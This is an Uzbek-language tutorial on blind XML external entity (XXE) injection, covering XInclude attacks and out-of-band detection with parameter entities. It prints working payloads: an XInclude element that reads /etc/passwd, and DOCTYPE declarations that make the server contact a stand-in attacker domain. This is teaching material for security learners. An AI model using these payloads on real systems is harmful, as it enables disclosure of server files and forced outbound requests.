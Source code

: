 

Ko‘zdan yashiringan (blind) XXE zaifliklari
Ko‘plab XXE zaifliklari “ko‘zdan yashiringan” bo‘ladi. Bu — ilova tashqaridan ta’riflangan entitetlarning qiymatlarini javoblarida qaytarmaydi, shuning uchun serverdagi fayllarni to‘g‘ridan-to‘g‘ri o‘qib olish mumkin emasligini anglatadi.

Ko‘zdan yashiringan XXE zaifliklarini ham aniqlash va ekspluatatsiya qilish mumkin, lekin buning uchun yanada murakkab usullar kerak bo‘ladi. Ba’zida siz out-of-band texnikalaridan (masofaviy kanal orqali) foydalanib zaifliklarni topishingiz va ma’lumotlarni chiqarib olishingiz mumkin. Yana ba’zida XML parse qilinishida xatoliklarni qo‘zg‘atish mumkin, va shu xatolik xabarlari orqali maxfiy ma’lumotlarni oshkor qilish mumkin.

Batafsil o‘qish
Ko‘zdan yashiringan XXE zaifliklarini topish va ekspluatatsiya qilish

XXE injeksiyasi uchun yashirin hujum sathi topish
XXE injeksiyasi hujum sathi ko‘p hollarda oson aniqlanadi, chunki ilovaning oddiy HTTP trafikida XML formatidagi ma’lumotlarni o‘z ichiga olgan so‘rovlar mavjud bo‘ladi. Boshqa hollarda esa hujum sathi kamroq ko‘rinadi. Ammo, to‘g‘ri joylarni tekshirsangiz, XML bo‘lmagan so‘rovlarda ham XXE hujum sathi topishingiz mumkin.

XInclude hujumlari
Ba’zi ilovalar mijoz yuborgan ma’lumotni oladi, uni server tomonida XML hujjatiga joylaydi va so‘ng hujjatni parse qiladi. Misol uchun, mijoz yuborgan ma’lumot backenddagi SOAP so‘roviga joylashtirilsa va u xuddi shu tarzda qayta ishlansa — bunday vaziyatda klassik XXE hujumini amalga oshirish mushkul bo‘ladi, chunki siz butun XML hujjatni boshqara olmaysiz va DOCTYPE elementini qo‘shib yoki o‘zgartira olmaysiz. Biroq, XInclude yordamida hujum qilish imkoniyati bo‘lishi mumkin. XInclude — XML spetsifikatsiyasining bir qismi bo‘lib, u XML hujjatini kichik hujjatlardan birlashtirishga imkon beradi. Siz XInclude hujumini XML hujjatidagi istalgan ma’lumot maydoniga joylashtirishingiz mumkin, shuning uchun hujum siz faqatgina server tomonidagi XML hujjatiga joylashtiriladigan yagona ma’lumot elementini boshqarishingiz mumkin bo‘lgan vaziyatlarda ham amalga oshiriladi.

XInclude hujumini bajarish uchun siz XInclude namespace’ini ulashingiz va o‘qishni xohlagan fayl yo‘lini ko‘rsatishingiz kerak. Masalan:

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

_________________________________________________________________________________________________________________________
Ko‘zdan yashiringan (blind) XXE ni out-of-band (OAST) texnikalari yordamida aniqlash
Ko‘pincha ko‘zdan yashiringan XXE ni aniqlash uchun XXE → SSRF hujumlarida ishlatiladigan usuldan foydalanish mumkin — ya’ni tarmoq orqali chetga (out-of-band) o‘z nazoratingiz ostidagi tizimga so‘rov yuborilishini qo‘zg‘ashingiz kerak. Masalan, tashqi entitetni quyidagicha e’lon qilishingiz mumkin:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

So‘ngra aniqlangan entitetni XML ichidagi ma’lumot qiymatida ishlatasiz.

Bu XXE hujumi serverni ko‘rsatilgan URL ga orqa tomondan HTTP so‘rov yuborishga majbur qiladi. Hujumchi DNS so‘rovi va HTTP so‘rovlarni kuzatib, shunday qilib XXE hujumi muvaffaqiyatli bo‘lganligini aniqlaydi.

Ba’zida oddiy entitetlar yordamida bajariladigan XXE hujumlari ilovaning kirish ma’lumotlarini tekshirish yoki ishlatilayotgan XML parserining qattiq sozlamalari tufayli bloklanishi mumkin. Bunday vaziyatda XML parametr entitetlaridan foydalanish mumkin. XML parametr entitetlari — DTD ichida faqat boshqa joylarda chaqirilishi mumkin bo‘lgan maxsus turdagi XML entitetlaridir. Hozircha sizga ikkita muhim jihatni bilish kifoya: birinchidan, XML parametr entitetini e’lon qilishda entitet nomidan avval foiz (%) belgisi ishlatiladi:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

Ikkinchidan, parametr entitetlari odatdagi ampersand (&) o‘rniga foiz (%) belgisi bilan chaqiriladi:

```
%myparameterentity;
```

Demak, ko‘zdan yashiringan XXE ni XML parametr entitetlari orqali out-of-band usulda sinash mumkin, masalan:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Ushbu XXE payload `xxe` nomli XML parametr entitetini e’lon qiladi va so‘ngra uni DTD ichida chaqiradi. Bu hujumchi domeniga DNS so‘rovi va HTTP so‘rov yuborilishiga olib keladi va shu tarzda hujumning muvaffaqiyati tasdiqlanadi.

